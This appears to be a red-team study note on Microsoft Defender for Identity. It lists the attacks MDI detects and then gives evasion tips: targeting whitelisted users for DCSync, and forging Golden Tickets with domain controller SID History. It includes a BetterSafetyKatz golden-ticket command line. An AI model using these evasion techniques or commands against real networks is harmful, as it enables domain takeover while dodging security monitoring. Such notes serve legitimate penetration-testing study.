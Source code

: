 ```yaml
---
tags:
  - detection-and-defense
cssclasses:
  - DCSync
  - OPTH
  - PTH
  - Kerberoasting
  - MimiKatz
---
```

- It identifies, detects and investigates advanced threats, compromised identities, and malicious insider actions directed at your organization
- MDI sensors are installed on DCs and Federation servers. Analysis and alerting is done in the Azure cloud.
- MDI can be used for detecting
	- Recon
	- Compromised credentials (Brute-Force, [[Kerberoasting]] etc.)
	- Lateral Movement (PTH, OPTH etc.)
	- Domain Dominance (DCSync, [[Golden Ticket]], [[Skeleton Key]] etc.)
	- Exfiltration
## Bypass
- The key is to avoid talking to the DC as long as possible and make the traffic that we generate appear benign.
- To bypass DCSync detection, target users which are whitelisted.
- If we have NTLM hash of a DC, we can extract NTLM hashes of any machine account using netsync.

#### [[Golden Ticket]]
- If we forge a Golden ticket with SID History of the Domain Controllers group and Enterprise Domain Controllers Group, there are less chances of detection by MDI

```batch
BetterSafetyKatz.exe "kerberos::golden /user:domain-controller-machine-account /id:1000 /sid:S-1-XXXXX /sids:S-1-XXXXX,S-1-XXX /krbtgt:<ntlm_hash> /ptt" "exit"
```